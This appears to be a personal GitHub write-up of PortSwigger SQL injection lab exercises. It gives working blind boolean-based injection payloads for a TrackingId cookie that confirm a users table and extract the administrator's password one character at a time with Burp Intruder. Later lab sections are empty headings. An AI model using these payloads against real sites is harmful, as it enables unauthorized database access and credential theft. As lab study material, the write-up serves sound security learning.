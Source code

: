 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: Blind SQL injection with conditional errors [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)
```
```


## Lab 11: Visible error-based SQL injection [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)



## Lab 12: Blind SQL injection with time delays and information retrieval [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)


